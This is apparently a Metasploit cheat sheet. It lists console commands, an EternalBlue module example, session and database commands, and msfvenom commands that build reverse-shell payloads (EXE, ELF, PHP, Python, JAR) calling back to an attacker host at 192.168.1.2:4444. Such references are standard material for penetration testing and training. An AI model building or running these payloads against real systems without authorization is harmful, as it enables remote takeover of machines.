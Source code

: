 ```yaml
---

### **Launching Metasploit Console**
```bash
msfconsole
```

---
```


### **Essential Commands**
| Command                      | Usage                                    |
|------------------------------|------------------------------------------|
| `help`                       | List all available commands.            |
| `version`                    | Show the current Metasploit version.    |
| `search [keyword]`           | Search for modules (e.g., `search ms17_010`). |
| `use [module_name]`          | Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
| `show options`               | Display available options for a module. |
| `set [option] [value]`       | Set module options (e.g., `set RHOSTS 192.168.1.1`). |
| `exploit` or `run`           | Launch the exploit/module.              |
| `exit`                       | Exit Metasploit.                        |

---

### **Payload Handling with `msfvenom`**
Generate payloads in various formats:

| Payload Format               | Command Example                                                                 |
|------------------------------|---------------------------------------------------------------------------------|
| Windows EXE                  | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > shell.exe` |
| Linux ELF                    | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f elf > shell.elf` |
| PHP                          | `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f raw > shell.php` |
| Python                       | `msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.2 LPORT=4444 -f raw > shell.py` |
| Java JAR                     | `msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f jar > shell.jar` |

---

### **Session Management**
| Command Example                | Description                                             |
|--------------------------------|---------------------------------------------------------|
| `sessions -l`                  | List active sessions.                                   |
| `sessions -i [id]`             | Interact with a specific session.                      |
| `sessions -k [id]`             | Kill a session by ID.                                  |
| `background`                   | Background the current session.                        |
| `sessions -C [command]`        | Run a command on an active session (e.g., `sessions -C sysinfo`). |

---

### **Database Management**
| Command                       | Description                                             |
|-------------------------------|---------------------------------------------------------|
| `db_status`                   | Check database connection status.                      |
| `hosts`                       | List discovered hosts.                                 |
| `services`                    | List services identified on targets.                  |
```